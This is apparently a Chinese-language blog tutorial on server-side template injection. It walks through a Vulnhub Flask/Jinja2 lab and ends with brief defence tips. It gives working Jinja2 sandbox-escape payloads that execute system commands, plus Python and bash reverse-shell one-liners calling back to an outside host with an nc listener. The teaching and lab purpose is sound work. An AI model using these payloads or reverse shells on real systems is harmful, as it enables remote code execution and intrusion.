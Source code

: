 ```yaml
---
layout: post
title:  "SSTI(模板注入)的攻防战"
categories: 漏洞
tags: 渗透测试 渗透 漏洞
author: 柠枫
---
```




* content
{:toc}








## 前言

SSTI 全称Server Side Template Injection，服务器模板注入，先上一张图,各位可先看图根据后文加深印象

![图片1.png](https://i.loli.net/2020/02/18/3KxRsYFz4nM81Pi.png)

## SSTI的简单讲解

模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。与此同时，它也扩展了黑客的攻击面。除了常规的 XSS 外，注入到模板中的代码还有可能引发 RCE（远程代码执行）。通常来说，这类问题会在博客，CMS，wiki 中产生。虽然模板引擎会提供沙箱机制，攻击者依然有许多手段绕过它。

和常见Web注入的成因一样，也是服务端接收了用户的输入，将其作为 Web 应用模板内容的一部分，在进行目标编译渲染的过程中，执行了用户插入的恶意内容，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性，所以说 用户的输入永远都是不可信的。

通过模板，Web应用可以把输入转换成特定的HTML文件或者email格式。就拿一个销售软件来说，我们假设它会发送大量的邮件给客户，并在每封邮件前SKE插入问候语，它会通过Twig（一个模板引擎）做如下处理：

```bash
$output = $twig->render( $_GET['custom_email'] , array("first_name" => $user.first_name) );
```

有经验的小伙伴可能会立刻想到xss，但是问题不止如此，此时我们可以尝试使用ssti：假设我们发送如下请求，

```bash
    custom_email={{7*7}} // GET 参数
    49  // $output 结果
```

    还有更神奇的结果：

```bash
    custom_email={{self}} // GET 参数
    Object of class
    __TwigTemplate_7ae62e582f8a35e5ea6cc639800ecf15b96c0d6f78db3538221c1145580ca4a5
    could not be converted to string // 错误
```

我们不难猜到服务器执行了我们传过去的数据。每当服务器用模板引擎解析用户的输入时，这类问题都有可能发生。除了常规的输入外，攻击者还可以通过 LFI触发它。模板注入和 SQL 注入的产生原因有几分相似——都是将未过滤的数据传给引擎解析。

## 实战

Vulnhub的Flask/Jinja2中的服务端模版注入

首先我们看看他的代码：

```php
from flask import Flask, request
from jinja2 import Template
app = Flask(__name__)
@app.route("/")
def index():
name = request.args.get('name', 'guest')
t = Template("Hello " + name)
return t.render()
if __name__ == "__main__":
app.run()
```

可以看到Template("Hello " +name)，Template()则是用户可控的，我们就可以这么来：

![图片2.png](https://i.loli.net/2020/02/18/HVuZ9v5RSAQjGWs.png)

![图片3.png](https://i.loli.net/2020/02/18/X7ohF6zIaYAxrq2.png)

随手尝试一波xss，这边是没有经过任何处理的 所以有xss很正常

此时写入模板语句:

![图片4.png](https://i.loli.net/2020/02/18/GK3xRF7ifA1Y85U.png)

可以看到也是能成功执行的，那么我们需要怎么利用呢？

我们知道 在python当中 执行系统命令需要import os模块；

然而 想要在模板中直接调用内置模块 os，即需要在模板环境中对其注册

需要在上层的代码里加一句:

```php
t.globals['os'] = os
```

如果没有加这一句，直接使用os中的方法会报错。
那么，如何在未注册 os 模块的情况下在模板中调用 popen() 函数执行系统命令呢？这就要用各种下划线函数了。

且因为python2与python3存在差异 所以这里找到了个通用的payload

```php
for c in ().__class__.__bases__[0].__subclasses__():
    if c.__name__=='_IterationGuard':         c.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```

用jinja的语法即为（执行命令使用os.popen('whoami').read()才有执行结果的回显）

```text
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__=='_IterationGuard' %}
    {{
       c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")
    }}
{% endif %}
{% endfor %}
```

看到别的大神也有使用func_global模块的linecache 我这里也把代码贴出来 其实都是差不多的：


{% for c in [].\__class__.\__base__.\__subclasses__() %}
{% if c.\__name__ == 'catch_warnings' %}
{{c.\__init__.func_globals['linecache'].\__dict__['os'].system('id') }}
{% endif %}
{% endfor %}


![图片5.png](https://i.loli.net/2020/02/18/HyIEcUkF7VaWhb1.png)

可以看到成功执行了whoami命令 后续的话想反弹shell可以直接用python反弹或者bash...

```python
python -c
'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.80.134",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
'
```

```bash
Bash:
受害机命令
bash -i >& /dev/tcp/x.x.x.x/1234 0>&1

本机命令
nc -lvvvp 1234
```

## 防御

* 尽可能加载静态模板文件
* 不要允许用户控制此类文件或其内容的路径
